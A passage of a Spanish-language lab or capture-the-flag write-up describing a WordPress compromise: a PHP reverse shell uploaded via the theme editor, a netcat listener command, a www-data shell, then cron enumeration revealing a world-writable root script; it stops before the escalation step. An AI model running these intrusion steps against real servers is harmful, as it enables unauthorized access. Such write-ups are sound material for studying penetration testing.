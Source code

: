 
## Ejecución de código y acceso inicial (web-shell)

Con acceso al **/wp-admin**, se utilizó el **editor de temas** para subir un **PHP reverse shell** Luego se abrió un listener:

```bash
nc -lvnp 4444
```

Al activar la carga, se obtuvo una **shell como `www-data`**, confirmando **RCE** a través del servidor web.

## Escalada de privilegios (PE) — Cron job root + script 777

Durante la enumeración local se revisó **`/etc/crontab`** y se encontró un **cron job** que ejecutaba **cada minuto** un script:

```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /var/backups/script.sh

```

Al momento de verificar los permisos que tenia el script se encontro...

```bash
wxrwxrwx 1 root root    73 Oct  7  2020 script.sh
$ ls -la
total 56
drwxr-xr-x  2 root root  4096 Apr 27 10:45 .
drwxr-xr-x 14 root root  4096 Oct  5  2020 ..
-rw-r--r--  1 root root 33928 Apr 27 10:41 apt.extended_states.0
-rw-r--r--  1 root root  3598 Oct  6  2020 apt.extended_states.1.gz
-rw-r--r--  1 root root  3570 Oct  5  2020 apt.extended_states.2.gz
-rwxrwxrwx  1 root root    73 Oct  7  2020 script.sh

```
